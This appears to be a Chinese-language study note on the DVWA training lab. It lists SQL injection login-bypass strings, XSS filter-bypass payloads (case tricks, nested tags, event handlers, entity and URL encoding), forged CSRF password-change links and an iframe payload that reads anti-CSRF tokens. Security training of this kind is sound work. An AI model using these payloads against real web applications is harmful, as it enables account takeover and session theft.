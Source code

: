 # dvwa

## bruteforce

### level：low  
<b>1.注入方式：</b>
-   源码：query  = "SELECT * FROM \`users\` WHERE user = '\$user' AND password = '\$pass';"   
-    admin' #  &emsp;或者	&emsp;admin' -- a   &emsp;或者&emsp; a' or '1' = '1' limit 1 #

### level:medium

<b>1.暴力破解 </b> 
-   burpsuit intruder
-   MySQL5.5.37以下版本如果设置编码为GBK，能够构造编码绕过mysql_real_escape_string 对单引号的转义
---
##  xss

1.  窃取cookie
2.  劫持流量恶意跳转
3.  xss的利用和绕过  
     -  大小写绕过
         -  这个绕过方式的出现是因为网站仅仅只过滤了`<script>`标签，而没有考虑标签中的大小写并不影响浏览器的解释所致。具体的方式就像这样：`<sCript>alert("hey!")</scRipt>`
    -  利用过滤后返回语句再次构成攻击语句来绕过
        -  `<sCri<script>pt>alert("hey!")</scRi</script>pt>`
    -  并不是只有script标签才可以插入代码
        -  `<img src='w.123' onerror='alert("hey!")'>`
        -  `<a onmousemove=alert(1)> `
        -  `<div onmouseover=‘do something here’> `
    -  编码脚本代码绕过关键字过滤
        -  `<script>eval(\u0061\u006c\u0065\u0072\u0074(1))</script>`
    -   主动闭合标签实现注入代码
    -   html实体编码
        -   `<iframe src=javascript:alert(1)>`
        -   `<iframe src=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;>`
    -   URL编码
        -   `<iframe src=”javascript:alert(1)”>test</iframe>`
        -   `<iframe src="javascript:%61%6c%65%72%74%28%31%29"></iframe>`
        -   Javascript解析器工作的时候将`\u0061\u006c\u0065\u0072\u0074`进行js解码后为”`alert`”，但是需要注意像圆括号、双引号、单引号不能编码，否则在这种场景下无法弹窗。
4.  xss编码详情
    -   <a href="xss.md">编码相关</a>
---
### 1.  反射型xss

- ####   level:medium
  -   要闭合 `<option><select>`标签

- ####   level:high
    - URL的部分发往服务器时#号后面的并不会发送到服务器，但是javascript代码还会正常读取，所以利用这个特性来绕过服务器端的检查。

---
## csrf

-   ### 简介
    - CSRF，全称Cross-site request forgery，翻译过来就是跨站请求伪造，是指利用受害者尚未失效的身份认证信息（cookie、会话等），诱骗其点击恶意链接或者访问包含攻击代码的页面，在受害人不知情的情况下以受害者的身份向（身份认证信息所对应的）服务器发送请求，从而完成非法操作（如转账、改密等）。CSRF与XSS最大的区别就在于，CSRF并没有盗取cookie而是直接利用。

-   ### level ：low
    -   构造链接  如：`http://192.168.32.215/dvwa/vulnerabilities/csrf/?password_new=hack&password_conf=hack&Change=Change#` 缺点是容易被发现，所以可以将上面的链接转换成短链接。  
    -   构造一个网页，添加标签：`<img src="http://192.168.32.215/dvwa/vulnerabilities/csrf/?password_new=hack&password_conf=hack&Change=Change#" border="0" style="display:none;"/> `  
    用图片这种格式会保证最后结果不会回显给用户
    -   要保证使用此链接的时候，有当前用户的cookie……更换浏览器会使cookie失效
    -   同时，可以把刚才的链接放在一个网页中（服务器中），此服务器有一个短的域名。
-   ### level:medium
    -   过滤规则是http包头的Referer参数的值中必须包含主机名（这里是192.168.153.130）
    -   将攻击的网页 命名为 host.html 则可以
-   ### level：high
    -   可以看到，High级别的代码加入了Anti-CSRF token机制，用户每次访问改密页面时，服务器会返回一个随机的token，向服务器发起请求时，需要提交token参数，而服务器在收到请求时，会优先检查token，只有token正确，才会处理客户端的请求。
    -   同时由于同源策略，攻击者无法获取返回页面的token。
    -   在xss界面构造payload` <iframe src=../csrf onload=alert(frames[0].document.getElementsByName('user_token')[0].value)>`获取token
    -   个人想法：通过xss构造payload携带cookie，token访问本机的某个页面，这个页面在通过cookie和token去攻击。